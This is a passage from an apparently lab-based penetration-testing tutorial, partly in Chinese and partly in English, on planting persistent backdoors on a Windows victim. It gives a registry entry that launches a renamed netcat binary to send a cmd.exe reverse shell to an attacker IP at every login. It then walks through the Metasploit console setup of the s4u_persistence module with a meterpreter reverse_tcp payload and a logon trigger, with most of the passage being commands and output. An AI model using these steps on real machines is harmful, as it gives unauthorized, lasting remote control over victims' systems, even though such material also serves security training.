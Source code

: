 添加winconfig二进制文件的键值对：`右键->New->String Value`，Name是`winconfig`，双击该条目来添加值。

添加想要执行的命令：

```
"C:\Windows\System32\winconfig.exe 192.168.102.145 5544 -e cmd.exe"
```

重启受害者机器，激活后门。

当受害者机器正在启动，返回攻击者机器看发生了什么。到目前位置什么也没发生，因为用户还没有登录。所以，登录受害者机器，并返回攻击者机器。一旦受害者登录了，可以看到受害者机器联系了攻击者机器。现在持久后门已经建立了。任何时候受害者登录，我们可以从攻击者机器进行访问。

## metasploit and its meterpreter shell
For this scenario, we suppose we already have exploited the remote machine, and we have a meterpreter session on the machine. For your information, the meterpreter session is an active and interactive connection between us and victim machine. It is similarly the previous showed in the ncat, but it offers many other features.

Let's see how we can create and install backdoor on the victim, and then execute command and script in order to obtain information from it.

The easiest way to install a backdoor on the remote system from the meterpreter shell is by running the module name `s4u_persistence`.

```
msf exploit(handler) > use exploit/windows/local/s4u_persistence
msf exploit(s4u_persistence) > show options

Module options (exploit/windows/local/s4u_persistence):
Name    Current Setting Required    Description
SESSION                 yes         The session to run this module on.
TRIGGER schedule        yes         Payload trigger method (accepted: event, lock, logon, schedule, unlock)

msf exploit(s4u_persistence) > sessions

Active sessions
Id  Type                    Information Connection                  Connection
2   meterpreter x86/win32   WIN-65EMTLPDBMA\els @ WIN-65EMTLPDBMA   192.168.102.145:5555 -> 192.168.102.152:49158 (192.168.102.152)
```

Let's set the module configuration by typing

```
msf exploit(s4u_persistence) > set session 2
session => 2
msf exploit(s4u_persistence) > set trigger logon
trigger => logon
msf exploit(s4u_persistence) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(s4u_persistence) > set lhost 192.168.102.145
lhost => 192.168.102.145
msf exploit(s4u_persistence) > set lport 1234
lport => 1234
```
